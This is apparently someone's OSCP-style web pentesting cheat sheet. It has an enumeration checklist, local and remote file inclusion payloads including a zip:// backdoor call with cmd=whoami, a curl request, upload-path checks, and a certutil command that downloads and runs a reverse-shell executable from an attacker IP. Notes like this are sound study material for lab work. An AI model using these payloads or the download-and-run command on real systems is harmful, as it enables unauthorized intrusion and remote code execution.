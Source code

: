 - [Checklist](#checklist)
- [Default Webroot](#default-webroot)
- [Local File Inclusion](#local-file-inclusion)
- [Remote File Inclusion](#remote-file-inclusion)
- [Curl](#curl)
- [View Source Code](#view-source-code)
- [Gobuster](#gobuster)
- [Feroxbuster](#feroxbuster)
- [File Upload Vulnerability](#file-upload-vulnerability)
- [Java Code Execution](#java-code-execution)

# Checklist
- [ ] NMAP scripts
  -  nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190
- [ ] IIS version -> windows version
- [ ] curl -IL https://www.inlanefreight.com
- [ ] whatweb 10.10.10.121
- [ ] View Source Code
- [ ] Gobuster
  - admin portal?
  - file upload vuln?
  - plugin page?
- [ ] wfuzz
- [ ] Check README
- [ ] Did we run exiftool against anything found?
- [ ] DNS enumeration
- [ ] Authentication: cewl -d 2 -m 4 http://10.129.200.170/nibbleblog/
- [ ] File upload vulnerability
- [ ] Discover webroot
- [ ] Robots.txt
- [ ] Local File Inclusion
- [ ] Remote File Inclusion
- [ ] SQLi
  - Try injecting a single quote(')
  - Try injecting %27



# Default Webroot
```bash
Apache	/var/www/html/
Nginx	/usr/local/nginx/html/
IIS	c:\inetpub\wwwroot\
XAMPP	C:\xampp\htdocs\
```


# Local File Inclusion
- Click stuff to find out if we can find this ?file=, ?page=
- We could also utilize zip://, file:// php://
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

![image](https://github.com/nuricheun/OSCP/assets/14031269/c80aca68-e70d-42e5-a1ca-dd124e75324f)

**Windows**
- ?page=C:/Windows/System32/drivers/etc/hosts
- ?page=../../../../../../../../Windows/System32/drivers/etc/hosts
- ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

**Linux**


# Remote File Inclusion
- ?page=http://192.168.45.208/somefile.php


# Curl 
- When there are URLs pointing at something suspicious, change method (from GET to POST) with curl can give you clear answers
```bash
curl -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.175:443/list-running-procs"}' http://192.168.163.99:33333/list-running-procs
```


# File Upload Vulnerability
```bash
# always check root after uploading something
http://example.com/uploadedsomething.txt
http://example.com/upload/uploadedsomething.txt
http://example.com/uploads/uploadedsomething.txt


```


# Java Code Execution (C:/Windows/Temp/)
```bash
certutil -urlcache -f http://192.168.45.176/rev80.exe C:/Windows/Temp/rev80.exe
C:/Windows/Temp/rev80.exe
```
